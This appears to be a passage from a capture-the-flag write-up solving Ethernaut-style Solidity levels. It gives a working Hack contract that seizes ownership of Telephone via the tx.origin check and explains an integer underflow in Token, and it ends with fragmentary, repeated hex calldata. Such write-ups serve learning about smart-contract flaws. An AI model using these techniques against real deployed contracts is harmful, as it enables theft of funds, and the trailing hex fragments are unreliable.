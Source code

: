 I deployed this contract with the `CoinFlip` address as `_target`. I then called `hack` 10 times in a row and won the game.

## <a id="04"></a>Level 04 - Telephone

### Objective

1. Claim ownership of the contract.

<details><summary>Level Contract</summary></details>

### Exploit

The only way to change the owner is with `changeOwner` which requires `tx.origin != msg.sender` to be true.

By interacting with `Telephone` through a deployed contract, the require condition will be met.

I deployed the following `Hack` contract with `Telephone`'s address for `_targetAddress`.

```js
contract Hack {
  Telephone target;

  constructor(address _targetAddress) {
    target = Telephone(_targetAddress);
  }

  function hack() external {
    target.changeOwner(msg.sender);
  }
}
```

I called the `hack` function and became the owner.

## <a id="05"></a>Level 05 - Token

### Objective

1. Get your hands on more than the 20 tokens you start with. Preferably a very large amount of tokens.

#### Things that might help:

-   What is an odometer?

<details><summary>Level Contract</summary></details>

### Exploit

Let's exploit the fact that the Solidity version used is 0.6.X. In that version, _arithmetic overflows and underflows_ **were not caught by the compiler**.

We start with 20 tokens. A require condition of `balances[msg.sender] - _value >= 0` checks we have enough tokens before transfering them.


[0]:  0000000000000000000000000000000000000000000000000000000000000020
[1]:  0000000000000000000000000000000000000000000000000000000000000004
[2]:  20606e1500000000000000000000000000000000000000000000000000000000
[0]: 0000000000000000000000000000000000000000000000000000000000000020
[1]: 0000000000000000000000000000000000000000000000000000000000000004
[2]: 20606e1500000000000000000000000000000000000000000000000000000000
[3]: 0000000000000000000000000000000000000000000000000000000000000004
[4]: 76227e1200000000000000000000000000000000000000000000000000000000